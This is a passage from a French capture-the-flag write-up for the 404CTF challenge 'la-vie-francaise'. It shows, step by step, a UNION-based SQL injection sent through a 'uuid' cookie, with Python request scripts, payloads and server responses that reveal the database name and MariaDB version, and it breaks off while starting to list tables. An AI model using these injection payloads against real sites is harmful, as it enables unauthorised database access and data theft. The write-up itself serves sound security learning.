 ```html
<h3>Bienvenue  jacquesrival  !</h3>
```

<br>

### Déterminer les colonnes visibles

Maintenant on va essayer de récupérer un output de l'injection pour simplifier la tâche. Pour ça on va laisser une colonne à NULL et trier dessus par order ascendant afin que notre union select soit le premier résultat. On limit alors à 1 la sortie (même si ici le serveur à l'air de déjà prendre tout seul le premier résultat).

En faisant plusieurs essais on voit que la colonne 1 et 2 nous sont renvoyées mais pas la 3. On va alors trier sur la 3 et se servir des deux premières comme output.

```python
from requests import Session

URL = "https://la-vie-francaise.challenges.404ctf.fr"
client = Session()

client.cookies.set('uuid', "' OR 1 = 1 UNION SELECT 'field1', 'field2', NULL ORDER BY 3 ASC LIMIT 1 #")

print(client.get(f"{URL}/account", allow_redirects=False).text)
```

Réponse :
```html
<h3>Bienvenue  field1  !</h3>
<p> field2 </p>
```

<br>

### Déterminer la version et le nom de la base de données

On sait avec le **`#`** de l'injection qu'il s'agit d'une base MySQL (sinon on aurait juste essayer les autres pour le savoir). Continuons l'investigation et prenons un peu de contexte avec la version de la database et le nom de celle que le serveur utilise pour le site :

```python
from requests import Session

URL = "https://la-vie-francaise.challenges.404ctf.fr"
client = Session()

client.cookies.set('uuid', "' OR 1 = 1 UNION SELECT database(), @@version, NULL ORDER BY 3 ASC LIMIT 1 #")

print(client.get(f"{URL}/account", allow_redirects=False).text)
```

Réponse :
```html
<h3>Bienvenue  usersdb  !</h3>
<p> 10.11.3-MariaDB-1:10.11.3+maria~ubu2204 </p>
```

Notre database : **`usersdb`** !

<br>

### Déterminer les tables

Maintenant regardons les tables qui existent dans cette base de données :

```python
from requests import Session

```